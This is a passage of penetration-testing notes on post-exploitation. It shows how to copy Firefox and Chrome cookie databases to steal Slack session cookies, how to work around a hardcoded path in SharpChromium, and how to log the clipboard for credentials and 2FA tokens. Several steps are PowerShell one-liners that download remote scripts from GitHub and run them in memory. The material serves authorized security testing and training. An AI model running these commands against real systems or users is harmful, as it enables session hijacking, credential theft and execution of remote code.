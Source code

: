 - https://github.com/clr2of8/SlackExtract

````
# Cookie Extraction from Firefox
> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .

# Extract Slack Cookie from Firefox Cookies Database
$ python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
-------------------------------------------------------------------------------------------------------

# Cookie Extraction from Chromium-based Browsers
> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
> Invoke-SharpChromium -Command "cookies slack.com"
````
We got an error because the cookie file path that contains the database is hardcoded in SharpChromium, and the current version of Chrome uses a different location.
We can modify the code of SharpChromium or copy the cookie file to where SharpChromium is looking.
SharpChromium is looking for a file in %LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies, but the actual file is located in %LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies with the following command we will copy the file to the location SharpChromium is expecting.
````
# Copy Cookies to SharpChromium Expected Location
> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"

# Invoke-SharpChromium Cookies Extraction
> Invoke-SharpChromium -Command "cookies slack.com"
````
**Clipboard**

The clipboard provides access to a significant amount of information, such as the pasting of credentials and 2FA soft tokens, as well as the possibility to interact directly with the RDP session clipboard.
````
# Monitor the Clipboard with PowerShell
> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
> Invoke-ClipboardLogger
````

**Roles and Services**

Services on a particular host may serve the host itself or other hosts on the target network. It is necessary to create a profile of each targeted host, documenting the configuration of these services, their purpose, and how we can potentially use them to achieve our assessment goals. Typical server roles and services include:
- File and Print Servers
- Web and Database Servers
- Certificate Authority Servers
- Source Code Management Servers
- Backup Servers
